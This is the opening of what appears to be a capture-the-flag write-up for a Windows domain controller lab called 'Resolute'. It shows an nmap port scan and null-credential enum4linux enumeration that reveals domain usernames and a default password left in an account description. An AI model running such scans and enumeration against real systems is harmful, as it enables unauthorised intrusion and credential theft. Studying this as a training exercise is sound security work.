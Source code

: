 # Resolute

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.209     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 03:38 EDT
Nmap scan report for 10.129.85.209
Host is up (0.015s latency).
Not shown: 65512 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49733/tcp open  unknown
```

### User List + ASREP-Roast

Using `enum4linux` and null credentials, we can find a list of users and an interesting description:

{% code overflow="wrap" %}
```bash
$ enum4linux -u '' -p '' -a 10.129.85.209 # truncated output 
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
```